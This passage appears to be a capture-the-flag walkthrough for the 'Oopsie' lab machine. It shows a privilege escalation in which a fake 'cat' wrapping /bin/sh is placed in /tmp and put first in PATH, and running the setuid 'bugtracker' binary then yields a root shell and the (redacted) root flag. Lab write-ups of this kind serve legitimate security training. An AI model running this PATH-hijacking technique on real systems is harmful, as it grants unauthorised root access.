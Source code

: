 We start [Privilege Escalation](../../../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md), we can create a malicious file in /tmp directory and change the PATH variable to hit it first, we'll do as follow :

```bash
robert@oopsie:/tmp$ echo '/bin/sh' > cat 
robert@oopsie:/tmp$ chmod +x cat 
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now we try to use **bugtracker** again :

```
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 15
---------------

# whoami
root
# cd /root
# ls
reports  root.txt
# cat root.txt      
# less root.txt
 {{REDACTED_FLAG}}
```

Pwned !!